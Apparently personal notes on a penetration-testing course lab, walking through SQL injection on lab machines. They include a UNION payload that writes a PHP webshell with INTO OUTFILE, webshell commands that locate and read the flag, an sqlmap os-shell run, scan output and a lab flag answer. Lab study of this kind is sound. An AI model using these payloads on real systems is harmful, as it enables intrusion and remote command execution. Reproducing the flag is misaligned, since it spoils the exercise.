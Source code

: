 ##### Manual
- Send POST request to Repeater, and SEND original for comparisons
- Note line number for    \<!-- end subscribe section --\>    (319) - Makes it easier to find what you're looking for
- Run ***order by # --***  attempts and scour Response's Subscription section for any column number errors
	- IGNORE NUMBER IN IMAGE!    Correct # of columns is **6**
  ![](10.3.2.5ex_orderby.png)
  - Attempt writing shell via INTO OUTFILE
	  - Might need to troubleshoot to figure where to save the webshell
```sql
UNION SELECT null, "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php"-- //
```

- Navigate to webshell and trigger exploit
```bash
http://192.168.209.48/webshell.php?cmd=find%20/%20-name%20flag.txt%20|%20grep%20flag.txt
	\N /var/www/flag.txt \N \N \N \N
http://192.168.209.48/webshell.php?cmd=cat%20/var/www/flag.txt
```

##### Automatic w/ sqlmap
- Save original, clean POST request to **subscribe_POST.txt**
- Get shell in **sqlmap**
```bash
sqlmap -r subscribe_POST.txt -p mail-list --os-shell
	...
	os-shell> find / -name flag.txt | grep flag.txt
		do you want to retrieve the command standard output? [Y/n/a] 
	Y
		command standard output: '/var/www/flag.txt'
	os-shell> cat /var/www/flag.txt
```


> Answer:  OS{ddb87012b9a6c37dff575a5b8ae36d5e}



6. **Capstone Exercise**: Enumerate the Module Exercise - VM #3 and exploit the SQLi vulnerability in order to get the flag.

```bash
nmap -Pn 192.168.209.49
	PORT     STATE SERVICE
	22/tcp   open  ssh
	80/tcp   open  http
	5432/tcp open  postgresql

feroxbuster -u http://192.168.209.49 -s 200 -s 301
200      GET      245l     1051w    14484c http://192.168.209.49/blog.php
200      GET      272l     1105w    15794c http://192.168.209.49/about.php
301      GET        9l       28w      315c http://192.168.209.49/mail => http://192.168.209.49/mail/
301      GET        9l       28w      314c http://192.168.209.49/img => http://192.168.209.49/img/
200      GET       65l      166w     2598c http://192.168.209.49/mail/contact.js
200      GET      192l      682w    10573c http://192.168.209.49/contact.php
200      GET      783l     2739w    46446c http://192.168.209.49/index.php
200      GET      268l     1017w    15171c http://192.168.209.49/feature.php
200      GET      488l     1382w    27598c http://192.168.209.49/class.php
```
